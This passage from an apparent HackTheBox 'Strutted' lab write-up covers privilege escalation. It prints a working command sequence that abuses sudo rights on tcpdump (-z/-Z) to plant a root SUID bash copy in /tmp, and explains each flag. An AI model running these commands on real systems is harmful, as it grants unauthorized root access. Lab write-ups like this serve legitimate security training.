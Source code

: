 Yep, that worked! As you can see the user flag is captured.

# Privilege Escalation

We are in now and we can continue to try and become root. We can check what sudo privileges we have with `sudo -l`. 

<img src='/images/HTB_Strutted/image 20.png'>

Well well we have sudo in the `/usr/sbin/tcpdump` folder. 

Let’s search for an available exploit using this. The first result looks promising: [https://gtfobins.github.io/gtfobins/tcpdump/](https://gtfobins.github.io/gtfobins/tcpdump/)

Here are some commands listed we can use to elevate the privileges.

Run these following commands:

```bash
COMMAND='cp /bin/bash /tmp/bash_root && chmod +s /tmp/bash_root'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

The `COMMAND='...'` command copies `/bin/bash` to `/tmp/bash_root` and changes the **SUID-bit.** The file can always be executed as root this way.

The `TF`, `echo` and `chmod` command create a temporary executable script that executes the `COMMAND='...'` .`TF` is the path to the script.

Lastly the `sudo tcpdump` command:

`i lo`	Listens on the loopback-interface

`-w /dev/null`	Writes nothing in the file

`-G 1`	Split the capture every 1 second

`-W 1`	1 file

`-z $TF`	After every fileswitch, execute $TF as a script

`-Z root` Execute the script as the user root (This is the vulnerability)

<img src='/images/HTB_Strutted/image 21.png'>
